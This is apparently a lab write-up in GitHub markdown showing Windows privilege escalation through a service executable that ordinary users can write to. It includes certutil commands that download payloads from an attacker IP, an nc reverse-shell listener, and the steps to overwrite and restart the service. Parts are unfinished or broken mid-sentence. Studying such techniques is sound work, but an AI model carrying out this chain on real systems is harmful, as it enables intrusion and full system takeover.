 ![image](https://github.com/user-attachments/assets/98ff68bb-d98c-41dd-9c3f-524495029b04)# Vulnerability Overview 
Insecure Service Executables refer to a vulnerability where the executable file (binary) that a Windows service runs has weak permissions, allowing an unprivileged user to modify or replace it. 
Since services often run with elevated privileges (e.g., SYSTEM), altering the executable can lead to privilege escalation.



# POC
It is important to know that there will be initial access to the target system before the privilege escalation is done. This was carried out by accessing the machine with a user credential and then using on the target CMD `certutil -urlcache -split -f http://10.4.106.235/esc.exe` a malicious file needed for the reverse shell was downloaded on the target, while the attacker machine listened with the command ` nc -nlvp 2294`

![image](https://github.com/user-attachments/assets/ed210457-164b-4e99-b1a3-6730248cad22)

The service "filepermsvc" details were checked out using the following command `sc qc filepermsvc`, and it turned out that the service is running with privileged access `SERVICE_START_NAME: LocalSystem` and the binary path ` BINARY_PATH_NAME: "C:\Program Files\File Permissions Service\filepermservice.exe"`
![image](https://github.com/user-attachments/assets/99ea3641-0012-477a-8ccc-d65e00f4df42)


The access list on the service's Binary path was then checked out using the command  `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

1. /accepteula: Automatically accepts the End User License Agreement (EULA) so the tool runs without prompting.
2. -q: Runs in quiet mode, suppressing unnecessary output like banners.
3. -u: Only user-level access (not group or system privileges).
4. -v: Verbose mode, providing detailed output about permissions.
5. -w: Checks for write permissions specifically.
6. - C:\PrivEsc\accesschk.exe: This is the path to the accesschk executable.
7. "C:\Program Files\File Permissions Service\filepermservice.exe": The target file being analyzed, likely a service executable installed under Program Files.

The result showed that the user acoount can read and write into the binary ` RW BUILTIN\Users FILE_ALL_ACCESS`

Then, i sent to malicious files to the target via the reverse terminal
1.esc.exe: This malicious file was upload on the target using  `certutil -urlcache -split -f http://10.4.106.235/esc.exe`.


After the upload, the file was used to replace the original binary file of the `filepermsvc` service by using the command `copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

This malicious file was uThis file would give a reverse shell with elevated privileges, and  when the servuice starts running
With a reverse shell running on 
![Uploading Screenshot from 2025-03-19 08-53-31.png…]()

2. `certutil -urlcache -split -f http://10.4.106.235/x.exe` This file would elevate the privilege of the current user by adding it to the administrator group
3. 


copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

  copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y



net start filepermsvc

